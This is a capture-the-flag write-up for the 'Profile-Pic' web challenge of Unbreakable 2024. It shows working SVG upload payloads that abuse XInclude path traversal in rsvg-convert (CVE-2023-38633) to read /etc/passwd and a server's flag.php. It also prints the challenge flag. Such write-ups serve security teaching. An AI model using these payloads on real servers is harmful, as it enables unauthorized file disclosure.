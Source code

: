 ```yaml
---
title: Profile-Pic
date: 2024-04-07T12:50:30+03:00
description: Writeup for Profile-Pic [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Can you change my profile picture in a hacker way?

Flag format: ctf{sha256sum}


## Intuition

The website is very simple with an upload feature. It means the attack vector is certainly a file upload vulnerability.
The server is PHP because I can add `index.php` at the end of the home page. We first thought about injecting php code, but
we finally looked at XXE upload chaining with the upload feature.

![img.png](/images/unbreakable_2024/profile.png)

Another hint about svg exploit was that the file was renamed and retyped to `png` after upload therefore it was obvious
that we had to exploit something else than php.

![img.png](/images/unbreakable_2024/png.png)

## Solution

The first step is to bypass the length check of the image. We can do this by changing the content-type of the image to `text/xml` and then upload a simple XML file.
![img.png](/images/unbreakable_2024/size.png)

![img.png](/images/unbreakable_2024/error.png)

The correct size is actually 50x50px. We can bypass this as follows:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
</svg>
```
The next step was to try to read source code or run commands using `expect://` or `file://` but it didn't work.
We noticed the error message above about the size and library `rsvg-convert` so we looked for recent exploits and 
found [this one](https://secalerts.co/vulnerability/CVE-2023-38633) therefore we tried to exploit it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
    <rect width="50" height="50" style="fill:rgb(255,255,255);" />
    <text x="10" y="10">
        <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
            <xi:fallback>file not found</xi:fallback>
        </xi:include>
    </text>
</svg>
```

![img.png](/images/unbreakable_2024/passwd.png)

We got it something ! Now it is time to read the flag file. And after enumerating some default paths for Apache server,
we found the flag in `/var/www/html/flag.php`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,255,255);" />
  <text x="-610" y="25">
    <xi:include href=".?../../../../../../../var/www/html/flag.php" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```
![img.png](/images/unbreakable_2024/flag.png)

The last step is to play with the following param `<text x="-610"` in order to read the flag.

### Flag

`CTF{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}`

## Acknowledge

This writeup was co-authored by [sunbather](https://github.com/costinteo), [Koyossu](https://github.com/SecioreanuStefanita) and [H0N3YP0T](https://github.com/Mathis-Dory).


